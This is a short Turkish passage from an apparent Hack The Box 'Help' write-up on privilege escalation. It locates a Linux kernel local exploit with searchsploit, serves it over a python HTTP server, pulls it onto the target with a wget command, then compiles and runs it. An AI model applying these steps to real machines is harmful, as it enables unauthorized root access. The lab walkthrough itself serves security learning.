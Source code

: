 ![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege1.png "--")

`searchsploit 4.4.0-116` şekilnde arama yaptığımızda linux kernel için bir exploit olduğunu görüyoruz.
`searchsploit -m linux/local/44298.c` komutu ile indirdim.

![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege2.png "--")

python HTTP server kullanarak erişime açıp hedef makinede indirmek için ise; `wget http://10.10.14.39:3434/44298.c`
![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege3.png "--")

C dosyasını derledim ve çalıştırdım.

![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege4.png "--")
